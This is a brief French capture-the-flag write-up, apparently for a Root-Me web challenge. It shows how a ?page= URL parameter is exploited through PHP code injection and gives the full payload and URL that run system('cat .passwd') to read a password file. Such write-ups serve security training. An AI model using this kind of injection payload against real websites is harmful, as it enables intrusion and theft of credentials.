 En cliquant sur les onglets, on voit qu'un paramètre ?page= apparaît.
On peut alors modifier l'URL en faisant appel à system()

Payload = `' and die(system("cat .passwd")) or '`
URL finale = `challenge01.root-me.org/web-serveur/ch47/index.php?page=home' and die(system("cat .passwd")) or '`